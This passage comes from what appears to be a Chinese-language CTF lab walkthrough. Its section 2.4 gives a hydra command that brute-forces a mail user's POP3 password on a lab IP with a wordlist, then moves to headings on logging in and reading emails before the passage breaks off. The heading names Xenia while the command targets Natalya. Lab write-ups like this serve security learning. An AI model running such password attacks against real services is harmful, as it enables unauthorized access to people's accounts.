 PS -保持安全严密，否则我们将受到损害。

### 2.4 爆破Xenia的密码

```
hydra -l Natalya -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3
```

![image-20230528145933271](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528145933271.png) 

#### 2.4.1 登录邮箱并查看信息

![image-20230528150057787](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528150057787.png)

#### 2.4.2 查看第二封邮件获取信息

